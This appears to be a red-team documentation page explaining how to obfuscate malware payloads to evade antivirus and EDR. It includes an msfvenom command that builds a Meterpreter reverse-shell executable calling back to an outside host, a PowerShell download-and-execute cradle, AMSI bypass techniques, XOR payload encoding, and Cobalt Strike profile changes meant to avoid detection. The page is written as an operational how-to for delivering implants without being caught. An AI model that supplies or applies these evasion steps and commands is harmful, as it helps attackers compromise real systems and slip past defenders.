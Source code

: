 ```yaml
---
id: payload-obfuscation
title: How to Obfuscate Payloads to Evade Detection
sidebar_label: Payload Obfuscation
sidebar_position: 2
---
```


---

### Objective

Learn how to **obfuscate payloads** to bypass antivirus (AV), EDR, and behavioral detection mechanisms. Payload obfuscation is a critical OPSEC tactic for delivering implants or executing post-exploitation tools without burning access.

---

### Prerequisites

- Payload already generated (e.g., reverse shell, beacon stager, loader)
- Familiarity with scripting or C2 frameworks (Metasploit, Cobalt Strike, Mythic)
- Testing lab or sandbox for verification

---

### Step-by-Step Instructions

---

#### 🧱 1. Choose Your Payload Type and Format

Start by identifying:
- **Language/Platform**: Bash, PowerShell, C#, Python, EXE, DLL
- **Delivery Vector**: Phish macro, USB, web shell, C2 stager
- **Execution Context**: Userland? Admin? In-memory?

Example:
```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.10.10 LPORT=443 -f exe > meterpreter.exe
```

---

#### 🔍 2. Perform Static Obfuscation (Code or Binary Level)

- **PowerShell**:
  - Use `Invoke-Obfuscation` or manual token mangling
  - Encode base64 blocks and remove formatting
  - Replace strings and function names with random tokens

- **EXEs/DLLs**:
  - Use `Shellter`, `Veil`, `PEzor`, `Donut` to transform payloads
  - Strip PE metadata: timestamps, version info, section names
  - Repack or re-sign with benign-appearing certs (optional)

---

#### 🧪 3. Encode and Encrypt Payload Strings

Apply multiple layers:
- XOR, AES, RC4 → decode at runtime
- Compress with `gzip`, `zlib`, then encode with Base64 or Hex

Sample Python XOR encode:
```python
key = 0x23
encoded = "".join([chr(ord(x)^key) for x in payload])
```

On target, decode → exec dynamically.

---

#### 🧬 4. Use In-Memory Execution for Stealth

Avoid dropping files altogether.

- **PowerShell**: `IEX (New-Object Net.WebClient).DownloadString(...)`
- **C2**: Beacon stage in memory with reflective DLL injection
- **AMSI Bypass**: Use `amsiInitFailed`, `sbl.dll`, or `noblob` patching

Tools:
- `Donut` for shellcode generation
- `Cobalt Strike`, `Mythic`, `Sliver`, `Sideloaded`

---

#### 🛡️ 5. Modify C2 Profiles and Execution Behavior

- Change sleep/jitter timings (e.g., 1200s ±20%)
- Randomize HTTP/S headers (`User-Agent`, `X-Req-ID`, `Host`)
- Use mimicry (`Slack`, `Dropbox`, `Outlook` beacon profiles)

📌 *Tip:* Cobalt Strike profiles should never be used in default form.

---

#### 🧪 6. Test Payloads Against Defenders

Use a local or cloud sandbox to test detection:
- **Defender**: Enable cloud-based protection for realistic results
- **EDR Simulators**: Use Elastic Defend, Velociraptor, Wazuh
- Check with VirusTotal (with obfuscation! never raw payloads)

Look for:
- AV/EDR flagging?
- Suspicious behavior like network calls or registry writes?
- High entropy detection?

---

#### 🧹 7. Clean Up Indicators

- Strip or spoof metadata
- Change compiler strings (`rcedit`, `reshacker`)
- Avoid consistent mutex, pipe, or named object patterns
- Remove staging tool artifacts

---

### Summary

Obfuscation is not about making malware “invisible” — it’s about buying **time and stealth** in an environment where every byte dropped or beacon sent is a potential IOC.

Rotate techniques, test often, and build your own layers.  
**The more your payload looks like you wrote it, the less likely it gets caught.**

---
